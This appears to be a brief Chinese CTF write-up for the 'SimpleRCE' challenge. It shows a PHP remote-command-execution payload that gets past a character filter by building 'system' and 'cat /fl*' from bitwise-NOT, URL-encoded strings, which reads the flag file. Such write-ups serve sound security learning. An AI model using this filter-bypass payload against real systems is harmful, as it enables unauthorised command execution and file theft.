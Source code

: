 ```yaml
---
title: '[Dest0g3 520迎新赛]SimpleRCE'
date: 2025-02-02 22:25:56
tags: 命令执行
categories: 刷题笔记
---
```


## [Dest0g3 520迎新赛]SimpleRCE

过滤了很多东西

![image-20250202223255424](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022232459.png)

但好像没过滤~，我们直接取反

```
aaa=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%D5);
system(cat /f*)
```

得到flag

![image-20250202223523926](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502022235955.png)
